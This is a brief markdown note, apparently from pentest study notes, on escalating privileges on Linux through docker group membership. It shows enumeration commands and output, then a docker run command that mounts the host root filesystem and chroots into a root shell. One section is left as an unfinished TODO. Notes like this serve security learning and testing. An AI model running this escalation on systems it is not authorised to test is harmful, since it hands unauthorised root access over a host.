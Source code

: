 # Living off the Land

## 01 - Enumerate

> [!IMPORTANT] Conditions
> The current user be part of the `docker` group.

TODO: Fill this info

```
user@debian:~$ ps aux | grep docker
user      1607  0.0  0.2  13136  1088 pts/0    S+   20:19   0:00 grep --color=auto docker
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),116(docker)
user@debian:~$ groups
user docker
user@debian:~$ grep "docker" /etc/group
```

```
user@debian:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        2 years ago         15.8MB
```

## 02 - Exploit

```
$ docker run -v /:/mnt --rm -it <image_ID> chroot /mnt sh
```

```
user@debian:~$ cd ..
user@debian:~/home$ docker run -v /:/mnt --rm -it 495d6437fc1e chroot /mnt sh
```